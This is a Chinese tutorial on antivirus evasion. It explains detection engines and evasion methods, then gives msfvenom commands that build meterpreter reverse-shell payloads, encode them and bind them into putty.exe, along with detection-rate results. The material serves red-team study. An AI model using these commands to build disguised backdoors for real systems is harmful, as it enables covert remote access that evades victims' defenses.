[toc]

**郑重声明：**

**1、文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

**2、文中提到的杀软检测指标是 virustotal.com（简称VT）上在线查杀结果，所以只是代表了静态查杀能力，数据仅供参考，不足以作为杀软查杀能力或免杀工具的判断指标。**


# 1 前言

一直从事web安全多一些，对waf绕过还稍微有些研究，但是对远控免杀的认知还大约停留在ASPack、UPX加壳、特征码定位及修改免杀的年代。近两年随着hw和红蓝对抗的增多，接触到的提权、内网渗透、域渗透也越来越多。攻击能力有没有提升不知道，但防护水平明显感觉提升了一大截，先不说防护人员的技术水平如果，最起码各种云WAF、防火墙、隔离设备部署的多了，服务器上也经常能见到安装了杀软、软waf、agent等等，特别是某数字杀软在国内服务器上尤为普及。这个时候，不会点免杀技术就非常吃亏了。

但web狗一般对逆向和二进制都不大熟，编译运行别人的代码都比较费劲，这时候就只能靠现成的工具来曲线救国了。为此，我从互联网上搜集了大约20款知名度比较高的免杀工具研究免杀原理及免杀效果测试，后面还学习了一下各种语言编译加载shellcode的各种姿势，又补充了一些白名单加载payload的常见利用，于是就有了这一个远控免杀的系列文章。

- **工具篇内容**：msf自免杀、Veil、Venom、Shellter、BackDoor-Factory、Avet、TheFatRat、Avoidz、Green-Hat-Suite、zirikatu、AVIator、DKMC、Unicorn、Python-Rootkit、DKMC、Unicorn、Python-Rootkit、ASWCrypter、nps_payload、GreatSCT、HERCULES、SpookFlare、SharpShooter、CACTUSTORCH、Winpayload等。

- **代码篇内容**：C/C++、C#、python、powershell、ruby、go等。

- **白名单内容**：MsBuild、Msiexec、mshta、InstallUtil、rundll32、Regsvr32、Cmstp、Wmic、CSC、Regasm、Regsvcs、Control、Msxsl、Odbcconf、Compiler等。

**已完成的免杀文章及相关软件下载：[`https://github.com/TideSec/BypassAntiVirus`](https://github.com/TideSec/BypassAntiVirus)**

第一篇基础篇内容比较水，主要介绍了一下杀毒软件工作原理和免杀原理，并在后面简单介绍了Metasploit自带的一些基础的免杀方式（8种方式），大佬勿喷。部分内容参考互联网资料，感谢各位前辈大佬的无私分享。

在免杀方面任晓辉编著了一本非常专业的书《黑客免杀攻防》，感兴趣的可以看一下。

# 2 免杀概念

免杀，维基百科上介绍：也就是反病毒（AntiVirus）与反间谍（AntiSpyware）的对立面，英文为Anti-AntiVirus（简写Virus AV），逐字翻译为“反-反病毒”，翻译为“反杀毒技术”。

# 3 杀毒软件检测方式

## 3.1 杀软常见扫描方式

1、扫描压缩包技术：即是对压缩包案和封装文件作分析检查的技术。

2、程序窜改防护：即是避免恶意程序借由删除杀毒侦测程序而大肆破坏电脑。

3、修复技术：即是对恶意程序所损坏的文件进行还原

4、急救盘杀毒：利用空白U盘制作急救启动盘，来检测电脑病毒。

5、智能扫描：扫描最常用的磁盘，系统关键位置，耗时较短。

6、全盘扫描：扫描电脑全部磁盘，耗时较长。

7、勒索软件防护：保护电脑中的文件不被黑客恶意加密。

8、开机扫描：当电脑开机时自动进行扫描，可以扫描压缩文档和可能不需要的程序

## 3.2 监控技术

1、内存监控：当发现内存中存在病毒的时候，就会主动报警；监控所有进程；监控读取到内存中的文件；监控读取到内存的网络数据。

2、文件监控：当发现写到磁盘上的文件中存在病毒，或者是被病毒感染，就会主动报警。

3、邮件监控：当发现电子邮件的附件存在病毒时进行拦截。

4、网页防护：阻止网络攻击和不安全下载。

5、行为防护：提醒用户可疑的应用程序行为。

# 4 扫描引擎

## 4.1 特征码扫描

机制：将扫描信息与病毒数据库（即所谓的“病毒特征库”）进行对照，如果信息与其中的任何一个病毒特征符合，杀毒软件就会判断此文件被病毒感染。杀毒软件在进行查杀的时候，会挑选文件内部的一段或者几段代码来作为他识别病毒的方式，这种代码就叫做病毒的特征码；在病毒样本中，抽取特征代码；抽取的代码比较特殊，不大可能与普通正常程序代码吻合；抽取的代码要有适当长度，一方面维持特征代码的唯一性，另一方面保证病毒扫描时候不要有太大的空间与时间的开销。

特征码类别：

1.文件特征码：对付病毒在文件中的存在方式：单一文件特征码、复合文件特征码（通过多处特征进行判断）；

2.内存特征码：对付病毒在内存中的存在方式：单一内存特征码、复合内存特征码

优点：速度快，配备高性能的扫描引擎；准确率相对比较高，误杀操作相对较少；很少需要用户参与。

缺点：采用病毒特征代码法的检测工具，面对不断出现的新病毒，必须不断更新病毒库的版本，否则检测工具便会老化，逐渐失去实用价值；病毒特征代码法对从未见过的新病毒，无法知道其特征代码，因而无法去检测新病毒；病毒特征码如果没有经过充分的检验，可能会出现误报，数据误删，系统破坏，给用户带来麻烦。

## 4.2 文件校验和法

对文件进行扫描后，可以将正常文件的内容，计算其校验和，将该校验和写入文件中或写入别的文件中保存；在文件使用过程中，定期地或每次使用文件前，检查文件现在内容算出的校验和与原来保存的校验和是否一致，因而可以发现文件是否感染病毒。

## 4.3 进程行为监测法(沙盒模式)

机制：通过对病毒多年的观察、研究，有一些行为是病毒的共同行为，而且比较特殊，在正常程序中，这些行为比较罕见。比如注册表操作、添加启动项、添加服务、添加用户、注入、劫持、创建进程、加载DLL等等。当程序运行时，监视其进程的各种行为，如果发现了病毒行为，立即报警。

优缺点：

1.优点：可发现未知病毒、可相当准确地预报未知的多数病毒；

2.缺点：可能误报警、不能识别病毒名称、有一定实现难度、需要更多的用户参与判断；

针对行为的免杀，我们可以使用白名单、替换API、替换操作方式（如使用WMI/COM的方法操作文件）等等方法实现绕过。

## 4.4 云查杀

云查杀的特点基本也可以概括为特征查杀，杀软会将较可疑但特征库并没有响应特征的程序传回杀软公司服务器上，进而判断该程序是否为恶意程序，然后做出响应。所以当你开着杀软的云查杀的时候，有时候刚开始没报病毒，但过一会就提示病毒了，这就是云查杀的效果。

## 4.5 主动防御技术

主动防御并不需要病毒特征码支持，只要杀毒软件能分析并扫描到目标程序的行为，并根据预先设定的规则，判定是否应该进行清除操作 主动防御本来想领先于病毒，让杀毒软件自己变成安全工程师来分析病毒，从而达到以不变应万变的境界。但是，计算机的智能总是在一系列的规则下诞生，而普通用户的技术水平达不到专业分析病毒的水平，两者之间的博弈需要主动防御来平衡。

## 4.6 机器学习识别技术

机器学习识别技术既可以做静态样本的二进制分析，又可以运用在沙箱动态行为分析当中，是为内容/行为+算法模式。伴随着深度学习的急速发展，各家厂商也开始尝试运用深度学习技术来识别病毒特征，如瀚思科技的基于深度学习的二进制恶意样本检测。

# 5 免杀技术发展史

`参考来源：http://www.myhack58.com/Article/64/2014/52200.htm`

理论上讲，免杀一定是出现在杀毒软件之后的。而通过杀毒软件的发展史不难知道，第一款杀毒软件kill 1.0是Wish公司1987年推出的，也就是说免杀技术至少是在1989年以后才发展起来的。关于世界免杀技术的历史信息已无从考证，但从国内来讲，免杀技术的起步可以说是非常晚了。

1989年：第一款杀毒软件Mcafee诞生，标志着反病毒与反查杀时代的到来。

1997年：国内出现了第一个可以自动变异的千面人病毒（Polymorphic/Mutation Virus）。自动变异就是病毒针对杀毒软件的免杀方法之一，但是与免杀手法的定义有出入。

2002年7月31日：国内第一个真正意义上的变种病毒“中国黑客II”出现，它除了具有新的特征之外，还实现了“中国黑客”第一代所未实现的功能，可见这个变种也是病毒编写者自己制造的。

2004年：在黑客圈子内部，免杀技术是由黑客动画吧在这一年首先公开提出，由于当时还没有CLL等专用免杀工具，所以一般都使用WinHEX逐字节更改。

2005年1月：大名鼎鼎的免杀工具CCL的软件作者tankaiha在杂志上发表了一篇文章，藉此推广了CCL，从此国内黑客界才有了自己第一个专门用于免杀的工具。

2005年2月-7月：通过各方面有意或无意的宣传，黑客爱好者们开始逐渐重视免杀，在类似于免杀技术界的祖师爷黑吧安全网的浩天老师带领下一批黑客开始有越来越多的讨论免杀技术，这为以后木马免杀的火爆埋下根基。

2005年08月：第一个可查的关于免杀的动画由黑吧的浩天老师完成，为大量黑客爱好者提供了一个有效的参考，成功地对免杀技术进行了第一次科普。

2005年09月：免杀技术开始真正的火起来。

由上面的信息可见，国内在1997年出现了第一个可以自动变异的千面人病毒，虽然自动变异也可以看为是针对杀毒软件的一种免杀方法，但是由于与免杀手法的定义有出入，所以如果将国内免杀技术起源定位1997年会显得比较牵强。

一直等到2002年7月31日，国内第一个真正意义上的变种病毒“中国黑客II”才迟迟出现，因此我们暂且可以将国内免杀技术的起源定位在2002年7月。

# 6 免杀技术介绍

## 6.1 修改特征码

免杀的最基本思想就是破坏特征，这个特征有可能是特征码，有可能是行为特征，只要破坏了病毒与木马所固有的特征，并保证其原有功能没有改变，一次免杀就能完成了。

```
特征码：能识别一个程序是一个病毒的一段不大于64字节的特征串
```

就目前的反病毒技术来讲，更改特征码从而达到免杀的效果事实上包含着两种方式。

一种是改特征码，这也是免杀的最初方法。例如一个文件在某一个地址内有“灰鸽子上线成功！”这么一句话，表明它就是木马，只要将相应地址内的那句话改成别的就可以了，如果是无关痛痒的，直接将其删掉也未尝不可。

第二种是针对目前推出的校验和查杀技术提出的免杀思想，它的原理虽然仍是特征码，但是已经脱离纯粹意义上特征码的概念，不过万变不离其宗。其实校验和也是根据病毒文件中与众不同的区块计算出来的，如果一个文件某个特定区域的校验和符合病毒库中的特征，那么反病毒软件就会报警。所以如果想阻止反病毒软件报警，只要对病毒的特定区域进行一定的更改，就会使这一区域的校验和改变，从而达到欺骗反病毒软件的目的。

修改特征码最重要的是定位特征码，但是定位了特征码修改后并不代表程序就能正常运行，费时费力，由于各个杀软厂商的特征库不同，所以一般也只能对一类的杀软起效果。虽然效果不好，但有时候在没有源码的情况下可以一用。

## 6.2 花指令免杀

花指令其实就是一段毫无意义的指令，也可以称之为垃圾指令。花指令是否存在对程序的执行结果没有影响，所以它存在的唯一目的就是阻止反汇编程序，或对反汇编设置障碍。

大多数反病毒软件是靠特征码来判断文件是否有毒的，而为了提高精度，现在的特征码都是在一定偏移量限制之内的，否则会对反病毒软件的效率产生严重的影响！而在黑客们为一个程序添加一段花指令之后，程序的部分偏移会受到影响，如果反病毒软件不能识别这段花指令，那么它检测特征码的偏移量会整体位移一段位置，自然也就无法正常检测木马了。

## 6.3 加壳免杀

说起软件加壳，简单地说，软件加壳其实也可以称为软件加密（或软件压缩），只是加密（或压缩）的方式与目的不一样罢了。壳就是软件所增加的保护，并不会破坏里面的程序结构，当我们运行这个加壳的程序时，系统首先会运行程序里的壳，然后由壳将加密的程序逐步还原到内存中，最后运行程序。

当我们运行这个加壳的程序时，系统首先会运行程序的“壳”，然后由壳将加密的程序逐步还原到内存中，最后运行程序。这样一来，在我们看来，似乎加壳之后的程序并没有什么变化，然而它却达到了加密的目的，这就是壳的作用。

加壳虽然对于特征码绕过有非常好的效果，加密壳基本上可以把特征码全部掩盖，但是缺点也非常的明显，因为壳自己也有特征。在某些比较流氓的国产杀软的检测方式下，主流的壳如VMP, Themida等，一旦被检测到加壳直接弹框告诉你这玩意儿有问题，虽然很直接，但是还是挺有效的。有些情况下，有的常见版本的壳会被直接脱掉分析。 面对这种情况可以考虑用一些冷门的加密壳，有时间精力的可以基于开源的压缩壳改一些源码，效果可能会很不错。

总得来说，加壳的方式来免杀还是比较实用的，特别是对于不开源的PE文件，通过加壳可以绕过很多特征码识别。

## 6.4 内存免杀

CPU不可能是为某一款加壳软件而特别设计的，因此某个软件被加壳后的可执行代码CPU是读不懂的。这就要求在执行外壳代码时，要先将原软件解密，并放到内存里，然后再通知CPU执行。

因为杀毒软件的内存扫描原理与硬盘上的文件扫描原理都是一样的，都是通过特征码比对的，只不过为了制造迷惑性，大多数反病毒公司的内存扫描与文件扫描采用的不是同一套特征码，这就导致了一个病毒木马同时拥有两套特征码，必须要将它们全部破坏掉才能躲过反病毒软件的查杀。

因此，除了加壳外，黑客们对抗反病毒软件的基本思路没变。而对于加壳，只要加一个会混淆程序原有代码的“猛”壳，其实还是能躲过杀毒软件的查杀的。

## 6.5 二次编译

metasploit的msfvenom提供了多种格式的payload和encoder，生成的shellcode也为二次加工提供了很大遍历，但是也被各大厂商盯得死死的。

而shikata_ga_nai是msf中唯一的评价是excellent的编码器，这种多态编码技术使得每次生成的攻击载荷文件是不一样的，编码和解码也都是不一样。还可以利用管道进行多重编码进行免杀。

目前msfvenom的encoder特征基本都进入了杀软的漏洞库，很难实现单一encoder编码而绕过杀软，所以对shellcode进行进一步修改编译成了msf免杀的主流。互联网上有很多借助于C、C#、python等语言对shellcode进行二次编码从而达到免杀的效果。

## 6.6 分离免杀

侯亮大神和倾旋大神都分别提到过payload分离免杀和webshell分离免杀，采用分离法，即将ShellCode和加载器分离。网上各种加载器代码也有很多，各种语言实现的都很容易找到，虽然看起来比较简单，但效果却是不错的。比如侯亮大神提到的shellcode_launcher，加载c代码，基本没有能查杀的AV。


## 6.7 资源修改

有些杀软会设置有扫描白名单，比如之前把程序图标替换为360安全卫士图标就能过360的查杀。

1. 加资源

使用ResHacker对文件进行资源操作，找来多个正常软件，将它们的资源加入到自己软件，如图片，版本信息，对话框等。

2. 替换资源

使用ResHacker替换无用的资源（Version等）。

3. 加签名

使用签名伪造工具，将正常软件的签名信息加入到自己软件中。


# 7 Metasploit自带免杀

Metasploit自身已经提供了一定免杀机制，比如Evasion模块、MSF自带的C编译模块、大名鼎鼎的`shikata_ga_nai`编码等等，但由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果。

免杀测试主要是使用了metasploit或cobaltstrike生成的代码或程序进行免杀处理，在实验机(win7 x64)上安装了360全家桶和火绒进行本地测试，在`https://www.virustotal.com/`上进行在线查杀（**如果是自己做免杀，建议测试机不要联互联网，更不要上传到virustotal.com类似的平台上**）。

在开始实验之前，写了一篇文章介绍了一下msfvenom的基本参数和一些小技巧：[https://mp.weixin.qq.com/s/1r0iakLpnLrjCrOp2gT10w](https://mp.weixin.qq.com/s/1r0iakLpnLrjCrOp2gT10w)，里面基本介绍了msfvenom的所有常用参数，有些参数在msf使用中可能会有一些意想不到的效果。

## 7.1 原生态payload(VT查杀率53/69)

操作便利★★★★★

免杀效果★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

在免杀之前，我先生成了一个原始payload作为原始样本做对比，选用了频率最高的`windows/meterperter/reverse_tcp`，这也是被各大杀软盯的最紧的一个，并以此做为其他免杀的对比衡量标准。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f exe -o payload1.exe
```
经测试，可正常上线。在`virustotal.com`上查杀率为53/69。这种原生态的居然还有没查杀出来的，还好意思叫杀软么...



## 7.2 msf自编码免杀(VT查杀率51/69)

操作便利★★★★★

免杀效果★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

metasploit提供了多个`encoders`可以对payload进行处理，使用`msfvenom --list encoders`可查看所有编码器。

评级最高的两个encoder为`cmd/powershell_base64`和`x86/shikata_ga_nai`，其中`x86/shikata_ga_nai`也是免杀中使用频率最高的一个编码器了。

生成示例：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -b "\x00" -i 15  -f exe -o payload2.exe
```
经测试，可正常上线。在`virustotal.com`上查杀率为51/69。

由于`shikata_ga_nai`编码技术是多态的，也就是说每次生成的payload文件都不一样，有时生成的文件会被查杀，有时却不会。当然这个也和编码次数有一定关系，编码次数好像超过70次就经常生成出错，但是编码次数多并不代表免杀能力强。

## 7.3 msf自捆绑免杀(VT查杀率39/69)

操作便利★★★★

免杀效果★★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

在生成payload时可以使用捆绑功能，使用msfvenom的`-x`参数可以指定一个自定义的可执行文件作为模板,并将payload嵌入其中，`-x`后面跟对应文件路径就可以。

我这里使用一个正规的`putty.exe`作为被捆绑测试软件。

生成payload命令如下
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333  -x putty.exe  -f exe -o payload3.exe
```

测试机器运行，本地的360全家桶和火绒都能查杀该payload。



在`virustotal.com`上查杀率为39/69



另外，能否免杀也和你选的被捆绑exe有一定关系，可以选微软的一些工具作为模板exe程序。

## 7.4 msf自捆绑+编码(VT查杀率35/69)

操作便利★★★★

免杀效果★★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

将上面的编码和捆绑两种方法结合一下进行尝试

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -x putty.exe  -i 15 -f exe -o payload4.exe
```
测试机器执行，发现火绒动态静态均能查杀，而360不会报病毒。



在关闭火绒后，开启360安全卫士和杀毒的情况下，可上线，可免杀。



可修改-i编码次数，编码次数越多，生成的payload越可能免杀，经测试，编码5次和6次可免杀360。

在`virustotal.com`上查杀率为35/69



看来稍微组合一下是能过更多的杀软的。后面会介绍更多的免杀方法，自己可以尝试多种免杀进行组合，垒积木一样的感觉...

## 7.5 msfvenom多重编码(VT查杀率45/70)

操作便利★★★★

免杀效果★★

推荐指数★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

msfvenom的encoder编码器可以对payload进行一定程度免杀，同时还可以使用msfvenom多重编码功能，通过管道，让msfvenom用不同编码器反复编码进行混淆。

如下命令，使用管道让`msfvenom`对攻击载荷多重编码，先用`shikata_ga_nai`编码20次，接着来10次的`alpha_upper`编码，再来10次的`countdown`编码，最后才生成以`putty.exe`为模板的可执行文件。

```
msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 LHOST=10.211.55.2 LPORT=3333 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x putty.exe -f exe -o payload5.exe
```

